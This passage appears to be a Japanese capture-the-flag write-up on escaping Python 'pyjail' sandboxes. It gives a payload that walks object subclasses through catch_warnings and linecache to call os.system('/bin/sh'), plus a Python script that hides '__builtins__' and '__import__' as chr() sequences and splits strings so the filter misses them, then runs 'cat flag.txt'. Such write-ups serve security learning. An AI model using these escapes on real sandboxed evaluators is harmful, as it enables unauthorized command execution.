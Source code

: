 上記の`file`を用いる手法はファイル名が最初に開示されて判明しているから使えるが、もしファイル名を知らない場合は何かしらの方法で知る必要がある。手っ取り早いのはシェルを召喚することなのでこれを目標とする。

これは自分で考えたわけではなく、色々なpyjailのWriteup(但しこの問題のものは見ていない)や資料を眺めて試行錯誤した結果だが、どうも`<class 'warnings.catch_warnings'>`から要素を辿っていくことで`os.system()`が実行出来るようである。

具体的には`getattr(locals()["__builtins__"],"print")(().__class__.__base__.__subclasses__()[59].__init__.func_globals)`をすると値に関数が来るような辞書が得られるが、何故か鍵に存在していない`"linecache"`を指定すると`os`モジュールへの参照が得られ、ここから`system`を実行出来る。

(正直他のWriteupでも「これを使うと出来る」みたいな書き方がされているので何が起きているのかはよくわからない、モヤモヤするので分かる方居たら教えてください)

最終的なペイロードは次のようになった。

```text
getattr(locals()["__builtins__"],"print")(().__class__.__base__.__subclasses__()[59].__init__.func_globals["linecache"].os.system("/bin/sh"))
```

## Code

### genericpyjailのペイロード構築

```python
def to_chr_func_seq(s):
    ret = ""
    for c in s:
        ret = ret + f"chr({ord(c)})+"

    return ret[:-1]

cmd = "cat flag.txt"

payload = f"""
getattr(getattr(locals().get({to_chr_func_seq("__builtins__")}),{to_chr_func_seq("__import__")})("o""s"),"sy""stem")("{cmd}")
""".strip()

"""
getattr(getattr(locals().get(chr(95)+chr(95)+chr(98)+chr(117)+chr(105)+chr(108)+chr(116)+chr(105)+chr(110)+chr(115)+chr(95)+chr(95)),chr(95)+chr(95)+chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(95)+chr(95))("o""s"),"sy""stem")("ls")
"""

print(payload)

print("================= result and debug =================")
res = eval(payload)
print(res)
```

### genericpyjail2のペイロード構築

`chr()`を使う文字列の構築がいらないので、添字しか指定しないこのペイロード構築コードは実はあんまり役に経ってない
